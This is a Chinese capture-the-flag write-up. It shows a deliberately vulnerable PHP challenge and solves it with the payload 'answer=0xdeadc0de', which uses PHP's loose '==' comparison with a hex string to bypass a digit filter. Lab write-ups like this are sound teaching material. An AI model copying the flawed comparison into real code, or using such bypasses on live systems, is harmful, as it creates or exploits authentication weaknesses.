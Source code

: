 ## 【题解】

**注：** 这里环境里的flag是自己输入的随机字符，所以不用考虑最后flag和答案不一致的问题

1.打开自己电脑中的浏览器，访问靶机开放的环境地址`http://IP:PORT/`来进行访问实验环境

![](files_for_writeup/1.png)

2.我们可以直接看到php主要的逻辑代码：

```php
<?php
require __DIR__.'/flag.php';
if (isset($_POST['answer'])){
    $number = $_POST['answer'];
    if (noother_says_correct($number)){
        echo $flag;
    }  else {
        echo "Sorry";
    }
}

function noother_says_correct($number)
{
    $one = ord('1');
    $nine = ord('9');
    # Check all the input characters!
    for ($i = 0; $i < strlen($number); $i++)
    {
        # Disallow all the digits!
        $digit = ord($number{$i});
        if ( ($digit >= $one) && ($digit <= $nine) )
        {
            # Aha, digit not allowed!
            return false;
        }
    }
    # Allow the magic number ...
    return $number == "3735929054";
}

highlight_file(__FILE__);
?>
```

3.我们可以看到题目要求我们传入的每一位不允许是1到9的数字。而。

```python
>>> hex(3735929054)
'0xdeadc0de'
```

4.恰好3735929054的十六进制为0xdeadc0de，仅出现字母与数字0，因此可以绕过检测。

最后与3735929054进行`==`比较，这里存在php弱类型比较问题，即`"0xdeadc0de" == "3735929054"`。

payload：

```php
POST: answer=0xdeadc0de
```

![](files_for_writeup/2.png)

5.获得flag：

![](files_for_writeup/3.png)

